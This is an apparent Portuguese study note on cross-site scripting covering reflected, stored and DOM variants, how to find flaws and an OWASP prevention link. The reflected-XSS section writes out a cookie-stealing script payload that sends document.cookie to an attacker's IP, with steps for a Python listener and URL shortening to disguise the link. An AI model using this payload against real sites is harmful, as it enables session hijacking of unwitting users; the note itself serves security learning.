 ## O que é?

   - Injeção de código HTML em uma aplicação. Usando, na maioria dos casos, a tag script.


## Onde as falhsa ocorrem?

   - Campos de pesquisa, cadastro são aberturas de comunicação com o servidor. Podendo injetar código javascript na aplicação. 

   - Link gerado pelo hacker com códigos maliciosos, quando abertos por clientes da aplicação, podem enviar dados dele para o atacante. 

   - A falha é executada no browser do cliente (client side).


## Nível de Controle javascript no navegador

   - Basicamente tem acesso a todas as funcionalidades que um script tem, ou seja, controle total do navegador. Com isso, o atacante pode roubar cookies de acesso, sessão de usuário/admin, utilização de keyloggers, explorar falhas em outros plugins.


## Utilizando o XSS Refletido

   - Algumas formas de aproveitar essa vulnerabilidade

   ### Roubo de cookies

      - Basta utilizar a tag script "<script>alert(document.cookie)</script>". Pórem essa forma exibe a ação na tela de quem abrir a URL com o código malicioso.

      - Para ser mais discreto e receber a informação no computador do atacante, é preciso subir um servidor http simples em python, com o comando "python3 -m http.server 80" a porta é a sua escolha, lembrando que não pode haver outro servidor na mesma porta, portanto caso tenha um web server apache na porta 80, comando "sudo service apache2 start", ela deve ser parada com o comando "sudo service apache2 stop". 

      - Então, com o servidor criado, basta colocar no campo de busca da url onde apresenta XSS o script malicioso '<script>new Image().src="http://192.168.200.5/?="+document.cookie</script>' e apertar enter. Lembrando que o ip informado depende da máquina que estiver o servidor http e a porta deve ser a mesma informada na criação do server http. A URL que for informada, terá o cookie de acesso informado no servidor http. Com isso, se o cliente clicar no link e logar, o script enviará o cookie de acesso para o log do servidor que foi criado. 

      - Para melhorar ainda mais o ataque, é possível encurtar a url com um encurtador de url na internet para que fique menos evidente que o script malicioso será executado. 


## Utilizando o XSS Permanente (stored)

   - Esse tipo de cross-site script é mais perigoso que o refletido, pois não depende do cliente acessar um link que o atacante criou. No XSS Stored, o script malicioso fica armazenado na base de dados do servidor, portanto, quando qualquer usuário acessar determinada url de um site o javascript será executado.

   - Essa vulnerabilidade pode acontecer em campos de comentários em postagens de sites. As falhas serão exploradas nos campos de nome e comentário.  

   - Uma forma bem prática de testar essa vulnerabilidade é com a utilização do OWASP ZAP e arquivos de payload, contendo diversas formas de escrever a tag script buscando alguma brecha de segurança. 


## Utilizando o XSS DOM (Document Object Model)

   - Esse XSS mexe na documentação da página html. O DOM não javascript, mas pode ser manipulado pelo js.

   - Caso uma página web manipule o DOM, é possível mudar como o js o manipula. 

   - Os parâmetros são passados pela URL e caso o site tenha essa vulnerabilidade o script terá acesso privilegiado a partir de certas funções de javascript. 

   - eval() é uma função de propriedades de um objeto global, exemplo de função onde pode ser explorado o XSS DOM. 

   - document.write(), document.cookie são exemplos de comandos que manipulam o DOM. 

   - Assim como o XSS reflected, o link malicioso deve ser clicado pelo alvo.


## Como encontrar falhas XSS

   - Três etapas:
      - Localizar entrada de dados - campos para digitar nome, comentário, qualquer coisa que se comunica com o servidor através de GET/POST do protocolo HTTP. 
      - Entender retorno ao usuário - observar o source da página, identificar como o site lida com as tentativas de XSS.
      - Utilizar payloads - payloads para testar várias formas de escrever um XSS em campos possivelmente vulnerável.


## Como mitigar o ataque XSS

   - https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

   - site ótimo que descreve em detalhes como se previnir do XSS. 

   - Importante para hacker ético entender como preveni essa vulnerabilidade para saber como os sites seguros se protegem contra XSS.


## Observações

   - Importante checar a source page, para analisar o html, como ele é descrito. 

   - payload xss: existe na internet diversas formas diferente de tentar burlar a segurança do site com xss. Esse payload tem escritas diferentes de tags script que testam essa vulnerabilidade. 

   - Alguns sites limitam a quantidade de caracteres de um comentário, limitando as possibilidades de criar scripts um pouco maiores. Porém, como a página é html, podemos mudar a quantidade de caracteres aceito inspecionando a página. Se o site for seguro, ele limitará a quantidade de caracteres enviados para o servidor e quebrará a tag script criada pelo atacante.

   - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet. Site ótimo para buscar diversos scripts para serem testados em sites com XSS.